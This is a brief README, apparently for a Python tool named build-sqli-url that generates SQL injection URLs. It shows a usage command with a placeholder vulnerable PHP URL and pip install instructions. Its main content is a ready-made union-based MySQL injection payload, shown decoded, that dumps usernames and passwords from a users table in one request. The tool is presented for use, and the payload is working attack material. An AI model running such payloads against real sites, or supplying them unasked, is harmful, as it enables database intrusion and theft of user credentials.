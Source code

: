 # README

Build SQLi URL Helper.

```zsh
❯ pipx run build-sqli-url 'http://site.com/vuln.php?id=-1' -s 15 -d 3 dios users username password
```

Result (decoded):

```sql
http://site.com/vuln.php?id=-1 union all select 1,2,(select(@a)from(select(@a:=0x00),(select(@a)from(users)where(table_schema<>0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,coalesce(username,0x00),0x09,coalesce(password,0x00),0x3c62723e))))a),4,5,6,7,8,9,10,11,12,13,14,15 -- -
```

```zsh
❯ pip install build_sqli_url
```
